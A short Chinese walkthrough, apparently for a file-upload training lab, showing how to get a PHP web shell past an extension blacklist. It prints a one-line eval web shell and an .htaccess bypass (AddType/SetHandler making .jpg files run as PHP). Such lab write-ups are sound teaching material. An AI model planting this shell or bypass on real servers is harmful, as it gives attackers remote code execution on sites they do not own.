 ## 解题wp(By:独立团孙德胜Alan)
本pass可以使用中间件特性绕过！ 请注意中间件版本！

## 1.打开第四关

![](./img/1.png)

## 2.上传一个普通的shell.php文件

```
<?php @eval($_POST('Alan'));?>
```

![](./img/2.png)

#### 提示不允许上传

## 3.分析代码

![](./img/3.png)

#### 发现转换了大小写，还有常见的后缀名，以及去除了字符串等众多过滤，$img_path变量在拼接的时候用的是$file_name变量(Pass-03用的是$file_ext)。所以可以使用的上传.htaccess(没在黑名单中且未对白名单文件重命名)内容是AddType application/x-httpd-php .jpg然后再上传一个.jpg文件(含php内容)就可以把.jpg当作php解析我们可以使用中间件的特性绕过。

## 4.我们可以使用Burpsutie抓包，利用中间件的特性绕过

Apache 中间件特性，可以尝试一下后缀为.htaccess的文件。
SetHandler application/x-httpd-php

分别上传.htaccess,shell.jpg

即可绕过

